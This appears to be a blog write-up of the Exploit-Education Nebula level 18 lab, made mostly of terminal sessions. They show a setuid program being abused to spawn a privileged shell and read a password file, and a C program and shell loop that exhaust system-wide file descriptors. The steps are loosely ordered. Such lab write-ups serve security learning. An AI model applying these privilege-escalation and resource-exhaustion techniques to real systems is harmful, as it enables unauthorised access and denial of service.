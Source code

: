 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 18"
date:   2019-08-25 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 18](https://exploit.education/nebula/level-18/)

## Challenge
Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it.

To do this level, log in as the `level18` account with the password `level18`. Files for this level can be found in `/home/flag18`.
level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 5376       0       204482
level18@nebula:~$

level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 19424      0       204482



level18@nebula:~$ cd ../flag18
level18@nebula:/home/flag18$ ./flag18 -d /dev/tty -v
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
./flag18: -d: invalid option
Usage:  ./flag18 [GNU long option] [option] ...
        ./flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
level18@nebula:/home/flag18$ ./flag18 --init-file -d /dev/tty -v
./flag18: invalid option -- '-'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'n'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 't'
./flag18: invalid option -- '-'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
ls
--d  flag18  password  -v
getflag
You have successfully executed getflag on a target account
cat password
44226113-d394-4f46-9406-91888128e27a




#include <sys/stat.h>
#include <fcntl.h>
int main(int argc, char **argv, char **envp)
{
        int i=0;
        for (i=0;i<4096;i++)
        {
                printf ("%d\n",i);
                open("/tmp/open","r");
        }
getchar();
return 0;
}




level18@nebula:~$ gcc filed.c

level18@nebula:~$sysctl fs.file-nr
fs.file-nr = 153312     0       204482

level18@nebula:~$for i in {1..1000};do ./a.out & done

level18@nebula:~$sysctl fs.file-nr
-sh: start_pipeline: pgrp pipe: Too many open files in system
-sh: /sbin/sysctl: Too many open files in system
[1232]   Done(126)               ./a.out
[1233]   Done(126)               ./a.out
[1234]   Done(126)               ./a.out
[1235]   Done(126)               ./a.out
[1236]   Done(126)               ./a.out

level18@nebula:~$for i in {1..100};do kill "%$i";done

https://decepticode.wordpress.com/2016/05/07/nebula-level18/comment-page-1/